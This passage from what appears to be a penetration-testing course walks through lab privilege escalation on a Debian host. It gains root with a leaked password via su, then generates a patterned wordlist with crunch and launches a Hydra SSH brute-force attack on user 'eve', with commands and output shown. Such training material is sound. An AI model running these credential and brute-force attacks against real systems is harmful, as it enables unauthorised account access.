 Let's first try to escalate our privileges by directly typing the newly-discovered password.

```
joe@debian-privesc:~$ su - root
Password:

root@debian-privesc:~# whoami
root
```

> Listing 26 - Becoming 'root' user with the leaked credential

Since we've successfully obtained root privileges, let's now try another privilege escalation route that is instead based on the environment variable credential finding.

Instead of aiming directly for the root account, we could try gaining access to the *eve* user we discovered during a previous section.

With our knowledge of script credentials, we could try building a custom dictionary derived from the known password to attempt brute forcing *eve*'s account.

We can do this by using the **crunch** command line tool to generate a custom wordlist. We'll set the minimum and maximum length to 6 characters, specify the pattern using the **\-t** parameter, then hard-code the first three characters to **Lab** followed by three numeric digits.

```
kali@kali:~$ crunch 6 6 -t Lab%%% > wordlist
```

> Listing 27 - Generating a wordlist for a bruteforce attack

We can then verify the content of the generated wordlist:

```
kali@kali:~$ cat wordlist
Lab000
Lab001
Lab002
Lab003
Lab004
Lab005
Lab006
Lab007
Lab008
Lab009
...
```

> Listing 28 - Inspecting the Wordlist Content

Since an SSH server is available on our target machine, we can try to attempt a remote brute force attack via Hydra. We'll supply the target username with the **\-l** parameter, our wordlist with **\-P**, the target IP address, and finally **ssh** as the target protocol. We will also include **\-V** to increase verbosity.

```
kali@kali:~$ hydra -l eve -P wordlist  192.168.50.214 -t 4 ssh -V
Hydra v9.3 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-08-23 14:30:44
[DATA] max 4 tasks per 1 server, overall 4 tasks, 1000 login tries (l:1/p:1000), ~250 tries per task
[DATA] attacking ssh://192.168.50.214:22/
[ATTEMPT] target 192.168.50.214 - login "eve" - pass "Lab000" - 1 of 1000 [child 0] (0/0)
[ATTEMPT] target 192.168.50.214 - login "eve" - pass "Lab001" - 2 of 1000 [child 1] (0/0)
[ATTEMPT] target 192.168.50.214 - login "eve" - pass "Lab002" - 3 of 1000 [child 2] (0/0)
[ATTEMPT] target 192.168.50.214 - login "eve" - pass "Lab003" - 4 of 1000 [child 3] (0/0)
[ATTEMPT] target 192.168.50.214 - login "eve" - pass "Lab004" - 5 of 1000 [child 2] (0/0)
...
```